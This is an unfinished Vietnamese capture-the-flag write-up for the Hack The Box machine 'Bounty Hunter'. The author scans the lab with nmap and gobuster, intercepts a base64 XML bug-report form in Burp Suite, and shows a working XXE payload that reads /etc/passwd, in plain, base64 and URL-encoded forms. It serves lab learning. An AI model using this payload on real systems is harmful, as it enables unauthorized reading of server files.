




# **Bounty hunter HTB**

Đầu tiên mình vẫn đi theo hướng scan nmap trước xong dạo 1 vòng quanh website kiểm tra xem có lỗ hổng nào.

Scan nmap:
```
nmap -sC -p- -sV -T3 10.10.11.100
```
Scan gobuster:
```
gobuster dir -u http://10.10.11.100:80 -w /usr/share/wordlists/dirbs/common.txt
```
Thì cũng không ra thông tin gì quan trọng cho lắm.
Sau đó mở đến phần portal thì ra đến phần 


và mình bật f12 lên và nhập thông tin linh tinh vào thôi


Thì thấy là thằng này nó gửi đến 1 trang gì đó trông rất mờ ám. Nhưng cũng không có gì. Giờ thì sẽ request qua burpsuite để theo tiện dùng repeater.

Thì vừa request post lên thấy burpsuite decode base 64 ra được là data có dạng xml:


=> Nghĩ ngay đến tấn công XXE mặc dù là tấn công kiểu này thực tế thì ít cơ mà :V chơi ctf thì cứ nghĩ đến thôi.

Mình thử thử 1 số payload XXE đơn giản:
```
<?xml  version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY dangdh11 SYSTEM "file:///etc/passwd"> ]>
        <bugreport>
        <title>&dangdh11;</title>
        <cwe>hehe</cwe>
        <cvss>hehe</cvss>
        <reward>hehe</reward>
        </bugreport>
```
encode base 64:
```
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IlVURi04Ij8+CjwhRE9DVFlQRSBmb28gWyA8IUVOVElUWSBkYW5nZGgxMSBTWVNURU0gImZpbGU6Ly8vZXRjL3Bhc3N3ZCI+IF0+CiAgICAgICAgPGJ1Z3JlcG9ydD4KICAgICAgICA8dGl0bGU+JmRhbmdkaDExOzwvdGl0bGU+CiAgICAgICAgPGN3ZT5oZWhlPC9jd2U+CiAgICAgICAgPGN2c3M+aGVoZTwvY3Zzcz4KICAgICAgICA8cmV3YXJkPmhlaGU8L3Jld2FyZD4KICAgICAgICA8L2J1Z3JlcG9ydD4=
```
encode url (Vì đoạn cuối data mẫu gửi lên có %3D)
```
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IlVURi04Ij8%2BCjwhRE9DVFlQRSBmb28gWyA8IUVOVElUWSBkYW5nZGgxMSBTWVNURU0gImZpbGU6Ly8vZXRjL3Bhc3N3ZCI%2BIF0%2BCiAgICAgICAgPGJ1Z3JlcG9ydD4KICAgICAgICA8dGl0bGU%2BJmRhbmdkaDExOzwvdGl0bGU%2BCiAgICAgICAgPGN3ZT5oZWhlPC9jd2U%2BCiAgICAgICAgPGN2c3M%2BaGVoZTwvY3Zzcz4KICAgICAgICA8cmV3YXJkPmhlaGU8L3Jld2FyZD4KICAgICAgICA8L2J1Z3JlcG9ydD4%3D
```
:D hè hè gửi lên thì ăn ngay:


> Nhưng mà hiện tại đến đây thì tắc rồi vì chưa ra hướng gì tiếp theo :| 

> updating ...